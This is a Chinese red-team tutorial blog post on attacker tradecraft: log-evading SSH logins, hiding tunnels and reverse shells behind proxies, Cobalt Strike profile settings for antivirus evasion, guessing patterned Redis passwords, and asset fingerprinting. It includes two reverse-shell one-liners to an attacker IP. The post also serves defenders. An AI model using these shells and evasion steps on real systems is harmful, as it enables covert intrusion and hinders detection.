# 奇安信攻防社区-红队实战攻防技术（二）

### 红队实战攻防技术（二）

大家好，我是风起，相信不少小伙伴都阅过本系列的前作 红队实战攻防技术（一），前作以一次真实的红队攻防案例作为展开，引出一系列的知识点及渗透时的一些小Tips。而近期因为相关法规，我们不能再以真实攻防案例作为讲解，所以本章将以攻防思路为主展开讲解，尽量以本地环境复现，望大家谅解。

作者：风起@WgpSec团队

# 前言

​ 大家好，我是风起，相信不少小伙伴都阅过本系列的前作 [红队实战攻防技术（一）](https://paper.seebug.org/1666/)，前作以一次真实的红队攻防案例作为展开，引出一系列的知识点及渗透时的一些小Tips。而近期因为相关法规，我们不能再以真实攻防案例作为讲解，所以本章将以攻防思路为主展开讲解，尽量以本地环境复现，望大家谅解。

​ 作为本系列的续章，希望能够面向红蓝双方进行讲解，在进行一些攻击方式分析时，同样也会引起防守方对于攻击的思考。红蓝对抗的意义也正是在这种持续的攻击下不断寻找防御的平衡点，故 **未知攻，焉知防**。

​ **本文仅做安全研究作用，切勿违法乱纪**。

# 幽灵登录

​ `ssh -T root@192.168.1.1 /usr/bin/bash -i`

​ 相信熟悉红队的小伙伴，不难看出，上面这条命令在日常渗透中，进行登录操作会经常使用，因为他不分配伪终端的方式而不会被w和last等命令记录。所以在某些时候，如果防守方在上机排查时，仅查看日志发现没有异常登录，却没有注意到是否存在异常网络连接时，就会判断为误报，给攻击者可乘之机。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-0eaf90dfc90a1b47bab2e0b1ac1782bb4184e1ee.jpg)

​ 通过上图，大家可以看到没有任何的登录信息，同样lastlog也不会记录本次登录行为。那么这种方式没有办法排查吗？其实不是的，因为攻击者在连接22端口时，并不是没有痕迹，只要连接SSH端口就一定存在记录。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-45e9d4fdb47c779f8dfdbfa366713da09d3b7f86.png)

​ 如图，我们从lsof以及ss命令结果中发现了连接服务器的恶意IP地址，那么这里留一个疑问，攻击者还有什么办法可以规避这样的排查方式呢？其实，在全国HW中，常见的隐匿个人主机IP地址的方式有许多，例如：肉鸡代理流量、VPN、基础隐匿设施等手段。而在攻击溯源的过程中，防守方通过攻击肉鸡服务器获取权限从而溯源攻击者信息的手段屡试不爽，除非攻击者愿意在拿下肉鸡权限后长期维护，不然一些水平不错的溯源人员也可以通过相同的方式拿下权限追溯攻击源，当然很少有攻击者愿意花费时间成本在一个肉鸡上，基本上都是用一次换一个。

​ 但是不得不承认，时至今日，肉鸡仍然是非常有效的隐匿及攻击方式。

# SSH隧道隐匿

​ 目前的内网渗透中，市面上有着大量各种各样的代理工具，例如：frp、ew、nps、venom、regeorg等等，根据不同的场景使用的协议也各不相同，也有DNS、ICMP、RDP这些非常规协议代理的工具。但是这些代理工具基本上都被一些杀软和态感所敏感，基本上在非免杀状态下就是落地被杀。所以也更加推荐大家使用一些系统自带的工具进行代理流量，例如：SSH隧道代理，Windows netsh、iptables等。本段将着重讲解SSH隧道代理的Tips。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-fac89e78d11333ffc8e3e16f106a985b5f9fd7d0.png)

​ 这里我们可以着重看一下箭头所指的地方，通过SSH隧道代理的方式，抛开我们VPS用户密码被监测到不谈，真实IP也一览无余的在网络进程以及相关连接中，老道的防守方成员可以很直观的发现是一起\*\*【SSH隧道代理事件】\*\*，但是这里也不是我们所需要关注的，毕竟我们不能把所有防守方当傻子，要正视对手的能力。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-472fe89ef1fb2bf2aff7c7448b163d47081d9245.png)

​ 这里我们采取Nginx反向代理的方式，具体实现方式这里不多赘述，感兴趣的同学可以关注Ngrok或者Heroku等方式的配置，也可以自己使用匿名域名及服务器搭建。

​ 通过上图我们可以看到使用反向代理的地址进行SSH隧道转发可以有效的隐匿真实的IP地址以及IP地址，注意这里的IP地址是Ngrok服务器的地址，从而实现了隐匿的效果。

# 反弹shell隐匿

​ 在我们日常渗透Linux主机的时候，当碰到RCE漏洞的时候，需要进行反弹获取交互shell的时候，通常都会使用以下两条命令。

例1:

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
```

例2:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.0.100/2333 <&1'
```

​ 以上的两个例子可以说是我们日常渗透中最常用的两条反弹shell命令，当然例1的优点是他的流量是进行了加密的，在这种情况下反弹shell执行的命令是无法被流控监测到的，最多可能会报 **隐蔽隧道通信** 的异常事件，但是这种事件对于一个有一定规模的值守单位，真的是太正常了。每天都会发生成千上万起类似的误报，而像向日葵、teamview这一类的报警基本都是直接忽略的。

​ 但是我们所需要注意的也正是这样的反弹方式，无论是例1还是例2我们都会发现都是不可避免的泄露了真实IP地址。其实这里的隐匿方式与上面的SSH隧道代理的原理是一样的。都是通过了反向代理的方式实现的，之前的文章中的渗透操作中也有使用这样的方式，然后有师傅咨询过，所以这里再拿出来冷饭热炒一下。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4f15580cb05b6fc76ee0dddbba679cb8890458d3.png)

​ 最终的效果如上图，可以看到反弹shell的地址为反向代理的域名，连接的端口为10075而实际上线的端口并不是这一个，这也仅仅是与前端服务器建立的网络连接，实际真正上线的为前端服务器转发给后端服务器的地址。

# CosbaltStrike Profile

​ 相信绝大多数从事渗透工作的同学对于CosbaltStrike这个工具都不陌生，虽然目前一线的红队已经逐渐从CS转到一些小众的C2设施去，但是不置可否的是CS仍然是非常好用的工具，它所提供的Profile自定义流量特征的功能，如果配置得体搭配域前置技术实现高信誉域名结合，所制造的效果基本上与正常的流量没有差异。

​ 灵活的编写Porfile是非常行之有效的，也不仅仅只是应用于伪造隐匿，在做免杀时，通过配置相关的混淆参数也可以过卡巴斯基的流量查杀，在之前测试免杀时，基本上静态已经过了，但是脚本仍然启动一会就被查杀了，这时通过配置CS profile的以下两段代码解决。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-2a6f445c2249408b97427e0912a894449eaf779e.png)

通过配置 **set obfuscate "true";** 高度混淆内存中的代码绕过。

而对于我们使用域前置的方式，假设profile不进行任何配置，则会告警。如下图

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1d6dbe54d15d5a69507ff37ceffcc780629699c1.png)

​ 这时通过配置profile中stage的set cleanup "true";即可解决。

​ 这里风起哥将自己编写的profile文件传到了Github上，感兴趣的小伙伴可以自行下载进行个性化配置。

​ **Github:[https://github.com/wikiZ/service\_cobaltstrike](https://github.com/wikiZ/service_cobaltstrike)**

# 运维惯性密码

​ 在很多时候我们横向拿下主机服务也不一定非要通过正面打漏洞的方式，在某次渗透项目中，我们通过推测运维密码习惯的方式拿下了23台Redis数据库，起初通过配置文件只发现了一个redis数据库密码，但是本机上部署有大量的redis数据库，但是通过对这些redis数据库的端口号与密码分析得到了一个规律。

**zzRedis63902020** 像这个密码，不难猜测密码为前后缀固定格式，中间四位为本机端口号，然后重新组合登录，然后尝试登录，发现确实如此。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-62a9b8e27779269245441841fc3b3046fcc91ff0.png)

​ 然后，懂得都懂。

​ 值得思考的是，这样的密码组合方式拓宽权限的方式真的不要太多了。毕竟运维也是人，不可能一个服务一个密码，但是安全管理规定也要执行，所以很多时候就出现了这些富有规律的密码。

​ 所以像此类攻击获取的权限，也许不是防守方人不行，而真的是路不平了吧哈哈哈。

# 行为测绘

​ 上面讲解了几个红蓝对抗中常碰到的一些Tips，其实就目前一些地方护网项目来看，与常规渗透的区别也并不是很大，所以上面讲的一些方式可能更加适用于全国HW行动中使用，因为无论是人员水准还是重视程度都差异非常大。

​ **但是不管在日常渗透中还是HW项目中，行为测绘都是非常行之有效的资产测绘手段。**

​ 首先对于梳理企业资产，我们首先需要思考三个W，也就是who? what? where? 字面来看也就是谁的？什么？哪里? 而应用于红队，目前各级护网对于资产归属的划分其实比较严格，例如资产属于总集团还是二级单位或者子公司，是否与集团内网互通？都是需要思考以及确认的点。那么我们首先从who去思考再从what谁和where在哪里去收集，资产的所属单位以及相关的网络信息，例如使用的框架、部署的业务系统、服务、开放的端口、使用的开发语言、域名等等。

​ 不同的群体，可能表现出基本的独有的特征，当我们能掌握到这个特征，那么我们就能尽可能识别出这个群体里的所有个体，而这些所谓的行为特征在网络空间测绘里表现出的是这个设备各个端口协议里的banner特征。  
​ 目前在网络空间测绘里常用的通用组件指纹识别形成的指纹库就是利用了通用组件通用的默认配置特征这个“行为”来进行识别的。

​ 也就是说，当我们掌握了一定的目标资产特征的时候，就可以根据我们对指纹的理解编写规则更加精准的匹配资产。并且通过资产测绘的方式也可以尽量减少主动扫描被发现的概率，因为一般的目标组织，他的对外业务服务并不会频繁的改动，所以我们得到的信息通常是较为精准的。

​ **这里我们最常提取的特征像favicon图标hash码，HTTPS证书序列号，前端代码段，服务连接banner等。**

​ 例如我们去做漏洞应急，以exploit-db上的公开漏洞举例。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-28fa411b4c801d818addf3158b2c7ef184faaa9a.png)

​ 该举例漏洞为国外的一个WIFI摄像头设备的未授权RCE漏洞，我们可以看到公开的漏洞POC中得到了两个关键信息，该漏洞是通过连接目标设备telnet 23端口，因为default用户登录未鉴权导致。所以我们通过提取\*\*port:23 +"goke login:"\*\*这两个特征作为指纹关联受影响的资产。

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-c413171830394672e8e3a22617a5c34d13a6353d.png)

​ **通过Kunyu关联资产，发现全网共有318台脆弱资产。**

​ 同样对于内网中的一些隐秘资产也可以采取HOSTS碰撞的方式。这种方式也是源于在企业内网中可能使用了很多Nginx反向代理，仅能使用配置好的ServerName的内网域名进行访问，那么我们在外网使用HOSTS碰撞的方式就可以碰撞出很多仅能内网使用的业务平台，直通内网业务！

[](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f94f721f8de6fcb5c4e0eeb893d3936d47298924.png)

​ 这里仅做抛砖引玉的作用，更高效的企业资产收集方式可以关注\*\*Kunyu(坤舆)\*\*的使用。

**[knownsec/Kunyu: Kunyu, more efficient corporate asset collection (github.com)](https://github.com/knownsec/Kunyu)**

# 后记

​ 再次感谢各位读者的支持，我一直觉得写文章是一件很有意思的事，把自己所学的，总结的经验以文字的形式传递下去，我最初的想法也是如此，我认为哪怕只有一位师傅看到我的文章后觉得有所收获，那么我觉得我所做的就不是没有意义的。

​ 本文作为红队攻防系列的续章，大概也是末章。在我的TODO中，之后会发布一篇 **新型网络犯罪攻防研究** 对这个方向从攻击思路、情报研究到研判分析进行深入讲解，敬请期待。

​ Kunyu（坤舆），后期持续维护更新，目前已经着力于结合测绘数据进行深度信息收集，并且后续会将更新点着力于此。同样应用于打击新型网络犯罪中也有显著效果，会在之后的文章以实战的方式展示给大家。

​ **最后祝大家心想事成，美梦成真！**

欢迎大家来了解一下，WgpSec狼组安全团队：

[https://mp.weixin.qq.com/s/3bKG3ZqBebxpWXfZ9CVU-g](https://mp.weixin.qq.com/s/3bKG3ZqBebxpWXfZ9CVU-g)
